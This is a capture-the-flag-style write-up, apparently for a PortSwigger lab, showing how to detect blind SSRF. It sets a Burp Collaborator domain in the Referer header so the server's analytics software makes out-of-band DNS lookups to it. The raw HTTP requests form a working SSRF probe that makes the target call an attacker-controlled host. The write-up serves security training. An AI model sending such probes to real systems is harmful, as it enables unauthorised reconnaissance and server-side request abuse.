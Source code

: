 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cc19736e-cbac-41a9-9864-5f43f23742ea)

## Overview :

> It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This
> typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the **actual HTTP 
> request was blocked by network-level filtering**. It is **relatively common for infrastructure to allow outbound DNS traffic**, since this is needed for
> so many purposes, but block HTTP connections to unexpected destinations. 


## Solution :

When one of the product page is loaded , the request is sent like this,

```http
GET /product?productId=1 HTTP/2
Host: 0a28007a04eb67258026ee2600ea0005.web-security-academy.net
Cookie: session=bqJhhLwvjm3qUsYssASc6BNqdEUO7Stg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://v40ftrlbdp89z443aqzb8tuualgb40.oastify.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Since it is mentioned that the site uses analytics software which fetches the URL specified in the Referer header , we can try giving  **burp collaborator address in the Referrer header** - `v40ftrlbdp89z443aqzb8tuualgb40.oastify.com` 

```http
GET /product?productId=1 HTTP/1.1
Host: 0a28007a04eb67258026ee2600ea0005.web-security-academy.net
Cookie: session=bqJhhLwvjm3qUsYssASc6BNqdEUO7Stg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: v40ftrlbdp89z443aqzb8tuualgb40.oastify.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

We get a `200 OK` response,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b1481b3e-128c-408f-b1df-f567a1c4a8d9)

We can also see that few **DNS requests** were made to our burp collaborator server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8750d159-8a6f-4c62-8ed8-20f12e221a9a)

And thus the lab is solved

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8245d97e-14c5-42b0-af6f-e08c3ebd4401)






